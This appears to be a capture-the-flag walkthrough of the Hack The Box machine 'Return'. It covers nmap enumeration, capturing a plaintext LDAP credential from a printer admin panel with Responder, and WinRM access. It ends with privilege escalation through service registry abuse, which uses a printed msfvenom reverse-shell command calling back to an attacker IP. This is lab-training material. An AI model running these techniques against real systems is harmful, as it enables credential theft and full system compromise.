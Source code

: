 First enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Wed Jan 31 08:59:10 2024 as: nmap -p- --min-rate 1000 -oN fulltcp.nmap -v -Pn 10.129.95.241
Nmap scan report for 10.129.95.241
Host is up (0.14s latency).
Not shown: 65506 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
53/tcp    open     domain
80/tcp    open     http
88/tcp    open     kerberos-sec
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
389/tcp   open     ldap
445/tcp   open     microsoft-ds
464/tcp   open     kpasswd5
593/tcp   open     http-rpc-epmap
636/tcp   open     ldapssl
3268/tcp  open     globalcatLDAP
3269/tcp  open     globalcatLDAPssl
3949/tcp  filtered drip
5985/tcp  open     wsman
9389/tcp  open     adws
47001/tcp open     winrm
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49671/tcp open     unknown
49676/tcp open     unknown
49677/tcp open     unknown
49678/tcp open     unknown
49681/tcp open     unknown
49738/tcp open     unknown
61168/tcp filtered unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Jan 31 09:00:30 2024 -- 1 IP address (1 host up) scanned in 80.32 seconds
```
first run nmap full port scan to know what ports are open, then  let's run default nmap scripts scan. 

```shell
# Nmap 7.94SVN scan initiated Wed Jan 31 09:09:30 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 53,80,88,135,139,389,445,593,636,3268,3269,3949,5985,9389,47001 -Pn 10.129.95.241
Nmap scan report for 10.129.95.241
Host is up (0.17s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-31 08:31:15Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
3949/tcp  closed drip
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-01-31T08:31:25
|_  start_date: N/A
|_clock-skew: 21m36s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 31 09:10:03 2024 -- 1 IP address (1 host up) scanned in 33.25 seconds
```
now we know what services aare running on those ports. 

## Enumerating port 80 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/de2800c5-fe2d-46a5-847d-7f25e32e1587)

checking the IP addr on a browser, we get a printer admin page. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0fd2c226-23c1-405a-b500-69ff7aa61f0c)

navigating to the settings page, we got to see some ldap info. let's try fire responder and replace the domain name with our tun0 IP addr. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1a279d88-8e9b-4a38-a70d-694e6e4e4716)

get tun0 ip 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ab0e7e56-0625-4353-9fda-1754d88f150f)

fire responder 

```shell
sudo responder -I tun0
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/887088a2-3feb-4365-87e5-4d85f86d6e91)

replace the domain name with the tun0 IP addr and click update

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/133c2b3f-85a8-49f4-ae5f-4b4990709b45)

boom we got the clear text password

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f5f59216-6971-4442-a23b-2ad495e27116)

using netexec to check what service we have access to, we can see we can login to winrm.

## Initial Foothold (Winrm)

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/711d9207-ed4f-42be-ba63-49b3654e560b)

we login winrm using the creds


## Privilege Escalation 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/fbe94d1e-b9b6-4ed3-aedd-4a7d50b74167)

running winpeas.exe, we can see we can modify some service registery 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/04c2a2aa-b190-496e-8d9d-75c6ab97b779)

running sc qc to query info about the `Vss` service, we can see it is run by localsystem, let's try to abuse ![Abuse](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions)

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Return]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.34 LPORT=443 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```
first generate an msfvenom reverse shell payload. and send to the target.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d9d38dae-0a68-4cbd-8f93-ae20d835b33c)

use the abuse function and restart the service, boom we got shell as NT Authority 
